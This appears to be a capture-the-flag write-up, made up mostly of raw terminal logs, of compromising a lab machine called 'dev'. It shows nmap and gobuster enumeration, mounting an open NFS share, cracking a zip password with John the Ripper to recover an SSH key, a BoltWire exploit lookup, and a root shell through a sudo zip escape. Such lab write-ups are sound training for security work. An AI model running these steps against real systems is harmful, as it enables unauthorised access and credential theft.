



nmap
~~~
┌──(alpha㉿sploit)-[~/ctf/dev]
└─$ sudo nmap -sV -A -sC 192.168.197.131 -oN nmap
[sudo] password for alpha: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-15 18:23 EDT
Nmap scan report for 192.168.197.131
Host is up (0.00097s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      41063/tcp6  mountd
|   100005  1,2,3      43708/udp   mountd
|   100005  1,2,3      53279/tcp   mountd
|   100005  1,2,3      53586/udp6  mountd
|   100021  1,3,4      35743/tcp   nlockmgr
|   100021  1,3,4      40409/tcp6  nlockmgr
|   100021  1,3,4      44497/udp6  nlockmgr
|   100021  1,3,4      45418/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs     3-4 (RPC #100003)
8080/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
MAC Address: 00:0C:29:30:B5:96 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.97 ms 192.168.197.131

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.21 seconds
~~~
gobuster
~~~
┌──(alpha㉿sploit)-[~/ctf/dev]
└─$ gobuster dir -u http://192.168.197.131/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.197.131/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/public               (Status: 301) [Size: 319] [--> http://192.168.197.131/public/]
/src                  (Status: 301) [Size: 316] [--> http://192.168.197.131/src/]
/app                  (Status: 301) [Size: 316] [--> http://192.168.197.131/app/]
/vendor               (Status: 301) [Size: 319] [--> http://192.168.197.131/vendor/]
/extensions           (Status: 301) [Size: 323] [--> http://192.168.197.131/extensions/]
/server-status        (Status: 403) [Size: 280]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
~~~
second directory for ```dev```
~~~
┌──(alpha㉿sploit)-[~/ctf/dev]
└─$ gobuster dir -u http://192.168.197.131:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.197.131:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/dev                  (Status: 301) [Size: 323] [--> http://192.168.197.131:8080/dev/]
/server-status        (Status: 403) [Size: 282]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
~~~
# mounting

The `showmount` command provides information about shares on an NFS server. The mountd daemon maintains this information on the host.

The command queries the mountd daemon on a remote host for information about the state of the NFS server on that machine.

To print the list of exported filesystems: use -e


~~~
┌──(root㉿sploit)-[/home/alpha/ctf/dev]
└─# showmount -e 192.168.197.131
Export list for 192.168.197.131:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
~~~
create dev directory inside of mount
~~~

                                                                                                                                            
┌──(root㉿sploit)-[/home/alpha/ctf/dev]
└─# mkdir /mnt/dev
                                                                                                                                                                                                                                                                  
                                                                                                                                            
┌──(root㉿sploit)-[/home/alpha/ctf/dev]
└─# mount -t nfs 192.168.197.131:/srv/nfs /mnt/dev
                                                                                                                                            
┌──(root㉿sploit)-[/home/alpha/ctf/dev]
└─# ls   
bolt.db  nmap
                                                                                                                                            
┌──(root㉿sploit)-[/home/alpha/ctf/dev]
└─# cd /mnt/dev           
                                                                                                                                            
┌──(root㉿sploit)-[/mnt/dev]
└─# ls
save.zip
                                                                                                                                            
┌──(root㉿sploit)-[/mnt/dev]
└─# cp save.zip /home/alpha/ctf/dev
                                                                                                                                            
┌──(root㉿sploit)-[/mnt/dev]
└─# ls
save.zip
                                                                                                                                            
┌──(root㉿sploit)-[/mnt/dev]
└─# unzip save.zip 
Archive:  save.zip
[save.zip] id_rsa password: 
   skipping: id_rsa                  incorrect password
   skipping: todo.txt                incorrect password
                                                                                                                                            
┌──(root㉿sploit)-[/mnt/dev]
└─# zip2john save.zip > hash.txt
ver 2.0 efh 5455 efh 7875 save.zip/id_rsa PKZIP Encr: TS_chk, cmplen=1435, decmplen=1876, crc=15E468E2 ts=2A0D cs=2a0d type=8
ver 2.0 efh 5455 efh 7875 save.zip/todo.txt PKZIP Encr: TS_chk, cmplen=138, decmplen=164, crc=837FAA9E ts=2AA1 cs=2aa1 type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
                                                                                                                                            
┌──(root㉿sploit)-[/mnt/dev]
└─# ls
hash.txt  save.zip
                                                                                                                                            
┌──(root㉿sploit)-[/mnt/dev]
└─# john hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
java101          (save.zip)     
1g 0:00:00:10 DONE 3/3 (2023-10-15 18:47) 0.09900g/s 3320Kp/s 3320Kc/s 3320KC/s bbsex39..javona1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                            
┌──(root㉿sploit)-[/mnt/dev]
└─# unzip save.zip
Archive:  save.zip
[save.zip] id_rsa password: 
  inflating: id_rsa                  
  inflating: todo.txt                
                                                                                                                                            
┌──(root㉿sploit)-[/mnt/dev]
└─# ls
hash.txt  id_rsa  save.zip  todo.txt
                                                                                                                                            
┌──(root㉿sploit)-[/mnt/dev]
└─#    
                                                                                                                                            

~~~
then i register the boltwire login bage

# searchsploit
~~~
                                                                                                                                            
┌──(root㉿sploit)-[/mnt/dev]
└─# searchsploit boltwire       
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                       |  Path
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
BoltWire 3.4.16 - 'index.php' Multiple Cross-Site Scripting Vulnerabilities                                                          | php/webapps/36552.txt
BoltWire 6.03 - Local File Inclusion                                                                                                 | php/webapps/48411.txt
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                                                       
┌──(root㉿sploit)-[/mnt/dev]
└─# searchsploit -m php/webapps/48411.txt
  Exploit: BoltWire 6.03 - Local File Inclusion
      URL: https://www.exploit-db.com/exploits/48411
     Path: /usr/share/exploitdb/exploits/php/webapps/48411.txt
    Codes: N/A
 Verified: False
File Type: ASCII text
Copied to: /mnt/dev/48411.txt
~~~


~~~
┌──(alpha㉿sploit)-[~/ctf/dev]
└─$ sudo ssh -i id_rsa jeanpaul@192.168.197.131
[sudo] password for alpha: 
Sorry, try again.
[sudo] password for alpha: 
The authenticity of host '192.168.197.131 (192.168.197.131)' can't be established.
ED25519 key fingerprint is SHA256:NHMY4yX3pvvY0+B19v9tKZ+FdH9JOewJJKnKy2B0tW8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.197.131' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun  2 05:25:21 2021 from 192.168.10.31
jeanpaul@dev:~$ ls
jeanpaul@dev:~$ ls -la
total 28
drwxr-xr-x 3 jeanpaul jeanpaul 4096 Jun  2  2021 .
drwxr-xr-x 3 root     root     4096 Jun  1  2021 ..
-rw------- 1 jeanpaul jeanpaul   39 Jun 28  2021 .bash_history
-rw-r--r-- 1 jeanpaul jeanpaul  220 Jun  1  2021 .bash_logout
-rw-r--r-- 1 jeanpaul jeanpaul 3526 Jun  1  2021 .bashrc
-rw-r--r-- 1 jeanpaul jeanpaul  807 Jun  1  2021 .profile
drwx------ 2 jeanpaul jeanpaul 4096 Jun  2  2021 .ssh
jeanpaul@dev:~$ cd .ssh
jeanpaul@dev:~/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
jeanpaul@dev:~/.ssh$ cd
jeanpaul@dev:~$ sudo -l
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
jeanpaul@dev:~$ sudo zip
Copyright (c) 1990-2008 Info-ZIP - Type 'zip "-L"' for software license.
Zip 3.0 (July 5th 2008). Usage:
zip [-options] [-b path] [-t mmddyyyy] [-n suffixes] [zipfile list] [-xi list]
  The default action is to add or replace zipfile entries from list, which
  can include the special name - to compress standard input.
  If zipfile and list are omitted, zip compresses stdin to stdout.
  -f   freshen: only changed files  -u   update: only changed or new files
  -d   delete entries in zipfile    -m   move into zipfile (delete OS files)
  -r   recurse into directories     -j   junk (don't record) directory names
  -0   store only                   -l   convert LF to CR LF (-ll CR LF to LF)
  -1   compress faster              -9   compress better
  -q   quiet operation              -v   verbose operation/print version info
  -c   add one-line comments        -z   add zipfile comment
  -@   read names from stdin        -o   make zipfile as old as latest entry
  -x   exclude the following names  -i   include only the following names
  -F   fix zipfile (-FF try harder) -D   do not add directory entries
  -A   adjust self-extracting exe   -J   junk zipfile prefix (unzipsfx)
  -T   test zipfile integrity       -X   eXclude eXtra file attributes
  -y   store symbolic links as the link instead of the referenced file
  -e   encrypt                      -n   don't compress these suffixes
  -h2  show more help
  
jeanpaul@dev:~$ 
[](https://gtfobins.github.io/gtfobins/zip/#sudo)
~~~
jeanpaul@dev:~$ TF=$(mktemp -u)
jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# sudo rm $TF
rm: missing operand
Try 'rm --help' for more information.
# ls
# id
uid=0(root) gid=0(root) groups=0(root)
# ls  
# ls -la
total 28
drwxr-xr-x 3 jeanpaul jeanpaul 4096 Jun  2  2021 .
drwxr-xr-x 3 root     root     4096 Jun  1  2021 ..
-rw------- 1 jeanpaul jeanpaul   39 Jun 28  2021 .bash_history
-rw-r--r-- 1 jeanpaul jeanpaul  220 Jun  1  2021 .bash_logout
-rw-r--r-- 1 jeanpaul jeanpaul 3526 Jun  1  2021 .bashrc
-rw-r--r-- 1 jeanpaul jeanpaul  807 Jun  1  2021 .profile
drwx------ 2 jeanpaul jeanpaul 4096 Jun  2  2021 .ssh
# cd /root
# ls
flag.txt
# cat *.txt     
Congratz on rooting this box !
#
~~~
